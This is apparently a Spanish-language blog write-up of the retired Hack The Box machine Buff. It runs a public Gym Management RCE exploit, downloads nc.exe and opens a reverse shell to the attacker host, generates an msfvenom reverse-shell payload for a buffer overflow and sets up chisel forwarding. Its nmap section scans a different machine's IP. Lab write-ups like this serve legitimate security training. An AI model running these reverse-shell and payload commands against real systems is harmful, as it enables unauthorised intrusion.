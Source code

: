 ```yaml
---
layout: post
title:  "Maquina  Retirada Buff de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada BUFF
tags: HTB, Bypass, BruteForce, Web Hacking, Maquinas Retiradas, Writeup
---
```


# BUFF ~ Hack The Box

Machine IP 10.10.10.198

Procedemos a realizar los escaneos con `nmap` que hacemos siempre:
```bash
# cat target                                                                 
# Nmap 7.91 scan initiated Mon Sep  6 20:32:33 2021 as: nmap -sC -sV -p22,80 -oN target 10.10.11.105
Nmap scan report for 10.10.11.105
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Hechando un Ojo a la web, conseguimos ver el CMS que utiliza:
```bash
Made using Gym Management Software 1.0
```
Buscamos en Searchsploit 
```bash
# searchsploit Gym Management                               
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                                                                    | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                                                                 | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                                                                           | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                                                                 | php/webapps/48506.py
```
Encontramos un exploit de RCE y probamos a utilizarlo
```bash
# python GymManagement.py                                                                                                                                     1 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

(+) Usage:       python GymManagement.py <WEBAPP_URL>
(+) Example:     python GymManagement.py 'https://10.0.0.3:443/gym/'
                                                                                                                                                                    
┌──(root💀pro)-[/home/…/Escritorio/HTB/Buff/exploits]
└─# python GymManagement.py http://10.10.10.198:8080/                                                                                                         255 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
▒
buff\shaun
```

Vemos que con esta shell no podemos movernos hacia atras en directorios etc, asique probamos a pasarnos un nc.exe para enviarnos un R-Shell potente.
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.16.4/nc.exe -o nc.exe
```
Compartimos un server python3 -m http.server 80 con el recurso de nc.exe
```bash
C:\xampp\htdocs\gym\upload> nc.exe -e cmd 10.10.16.4 443
```
Nos ponemos a la escucha:
```bash
# rlwrap nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.198] 49753
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>

Directory of C:\Users\shaun\Desktop

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
06/09/2021  11:47                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   7,623,385,088 bytes free

type user*
type user*

user.txt
2363dc8a282b3f13bad614f6fxxxxxxxxxxx
```
Procedemos a subir el winPEASx86 para enumerar el sistema:
```bash
C:\xampp\htdocs\gym\upload> curl http://10.10.16.5/winPEASx86.exe -o winPEASx86.exe
�PNG
▒

C:\xampp\htdocs\gym\upload> exit
```
# BUFFER OVERFLOW
Procedemos a hacer el Buffer OverFlow en una maquina windows 7 a nivel local con el binario de CloudMe para posteriormente repetir el proceso
en la maquina victima Buff.
```bash
Requisitos: 
- Immunity Debugger
- binario Malicioso (puerto 8888) CloudMe
- chisel (Port Forwarding) 
```

```Bash
########BOF############
```

Nos creamos con pattern_create.rb un listado de 5 mil caracteres aleatorios para introducirlos como PAYLOAD EN NUESTRO exploit.
```bash
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000 
$ Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3A.. .. .. 
```


Chequeamos con el Immunity Debuger el numero del EIP >>
```bash
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 69423569 
[*] Exact match at offset 1036
```


Para crear nuestras instruciones maliciosas a nivel local. -a (arquitectura) -b (BADChars) -e (encoded ) -f (en C )
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=192.168.233.133 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c 



./chisel client 10.10.16.5:1233 R:8888:127.0.0.1:8888 conectamos

./chisel server --reverse --port 1233 recibimos


roo.txt
78f9007b26a3846afxxxxxxxxxxxxxxxx
